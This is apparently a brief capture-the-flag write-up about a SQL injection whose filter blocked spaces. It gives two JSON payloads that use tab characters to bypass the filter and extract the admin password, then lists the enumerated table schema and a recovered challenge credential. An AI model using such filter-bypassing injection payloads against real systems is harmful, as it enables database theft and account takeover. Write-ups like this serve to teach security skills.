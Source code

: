 This was a SQL injection which had a blacklist of spaces. In order to bypass this, I used the unicode character for tab

first poc sql injection
```json
{
    "name": "fdsafdsaasdfasdf',\u0009(SELECT\u00091))\u0009RETURNING\u0009id,\u0009password--",
    "passwd":""
}
```
extract admin pw
```json
{
    "name": "12',\u0009(SELECT\u0009password\u0009FROM\u0009users\u0009WHERE\u0009username='admin'))\u0009RETURNING\u0009id,\u0009password--",
    "passwd":""
}
```

start exfilling db using LIMIT and OFFSET

users: ["id", "username", "password", "admin"]
classes: ["id", "name", "open"]
assignments: ["id", "class_id", "name", "text", "grading_binary"]
submissions: ["id", "user_id", "assignment_id", "filename"]
submission_results: ["id", "submission_id", "result", "message"]

look for valid submissions -> match submission id to user_id -> get password and login as that user

username:password
jU9KdEBhtp8Qd5Zt:jU9KdEBhtp8Qd5Zt

There was also an admin user and once we logged in, we were given the debug binary. The second part of this challenge was to actually pwn the binary but we unfortunately ran out of time.
